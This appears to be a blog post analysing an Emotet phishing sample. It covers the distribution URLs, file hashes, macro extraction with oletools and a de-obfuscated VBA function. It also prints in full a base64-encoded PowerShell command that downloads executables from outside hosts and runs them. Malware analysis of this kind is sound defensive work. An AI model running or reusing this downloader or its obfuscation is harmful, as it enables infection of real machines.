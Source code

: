 ```yaml
---
title: Emotet malware analysis. Part 1.
description: Analyzing Emotet malware, a trojan that is spread via phishing emails, malicious links and targets individuals, companies and governments.
layout: post
permalink: emotet-malware-analysis-part-1
image: "img/emotet_malware/emotet-malware.jpg"
---
```

This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

[ ![VirusTotal Sample](../img/emotet_malware/virustotal_sample.jpg){:.post_image} ](../img/emotet_malware/virustotal_sample.jpg)

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|

{% include adsense.html %}

### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

[ ![Macros Entry Point](../img/emotet_malware/macros_entry.png){:.post_image} ](../img/emotet_malware/macros_entry.png)

{% include adsense2.html %}

All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

[ ![Decoded powershell](../img/emotet_malware/powershell_decoded.png){:.post_image} ](../img/emotet_malware/powershell_decoded.png)

{% include adsense.html %}

Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.